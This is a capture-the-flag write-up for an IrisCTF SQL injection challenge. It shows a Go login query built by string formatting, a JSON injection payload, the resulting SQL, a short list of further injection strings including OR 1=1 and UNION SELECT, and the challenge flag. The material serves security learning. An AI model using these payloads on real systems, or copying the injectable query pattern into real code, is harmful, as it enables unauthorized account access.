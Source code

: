 # What's My Password

### Solution

From the given zip file, we get a SQL file contains some information about the database. There is a ```users``` table with two columns, ```username``` and ```password```. There are 3 users defined but ```skat```'s password is redacted.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```
We also get Go file named ```main``` that contains ```SELECT``` statement for the response.
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```
Since there is no parameter verification for password, we can assume that password field is vulnerable to SQLi. We can use this payload to get the password. 


```json
{
"username":"skat","password":"'\" OR (username = \"skat\" AND password LIKE \"irisctf%\") OR \"'"
}
```

If the JSON payload is substituted into the SQL statement, it will looks like this

```sql
SELECT * FROM users WHERE username = "skat" AND password = "'" OR (username = "skat" AND password LIKE "irisctf%") OR "'"
```

![alt text](images/whatsmypass.PNG)

You can also use these payload
```
"\" or \"1\"=\"1"
\" or 1=1 -- -
\" or 1=1 limit 1 offset 1 -- -
\" union select * from users where username = \"skat\" -- -
```
### Flag 
The flag for this challenge is ```irisctf{my_p422W0RD_1S_SQl1}```
